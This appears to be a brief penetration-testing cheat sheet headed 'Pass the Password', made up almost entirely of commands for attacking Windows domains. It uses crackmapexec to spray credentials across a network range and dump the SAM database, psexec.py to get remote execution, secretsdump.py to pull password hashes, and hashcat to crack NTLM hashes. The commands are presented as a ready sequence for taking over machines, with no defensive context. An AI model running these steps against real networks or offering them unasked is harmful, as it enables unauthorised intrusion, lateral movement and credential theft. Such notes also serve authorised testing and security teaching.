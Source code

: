 # Pass the Password

```bash
crackmapexec $network_ip/$cidr -d $domain -u $user -p $password
```

Once you get the pwn3d machines you can psexec or so, or you can even use some modules and options provided by crackmapexec as shown in the blog. so for example : To dump the sam file (depends, sometimes it doesn't work) :

```bash
crackmapexec $network_ip/$cidr -d $domain -u $user -p $password --sam

psexec.py $domain/$username:$password@$machine_ip

# dump hashes
secretsdump.py $domain/$username:$password@$machine_ip

# crack hashes
hashcat -m 1000 hashfile dict_file -O
```
